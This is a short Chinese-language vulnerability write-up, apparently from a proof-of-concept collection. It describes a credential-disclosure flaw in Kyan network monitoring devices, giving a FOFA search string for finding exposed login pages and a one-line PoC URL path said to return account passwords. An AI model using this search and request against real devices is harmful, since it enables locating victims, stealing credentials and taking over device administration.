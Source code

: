 # Kyan 网络监控设备 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

> [!NOTE]
>
> Kyan

## FOFA

```
title="platform - Login"
```

## 漏洞复现

登录页面如下

![](image/ky-1.png)

POC

```
http://xxx.xxx.xxx.xxx/hosts
```

![](image/ky-2.png)

成功获得账号密码

## Goby & POC

> [!NOTE]
>
> Kyan design account password disclosure

![](image/ky-3.png)

## 参考文章

https://www.secquan.org/BugWarning/1071987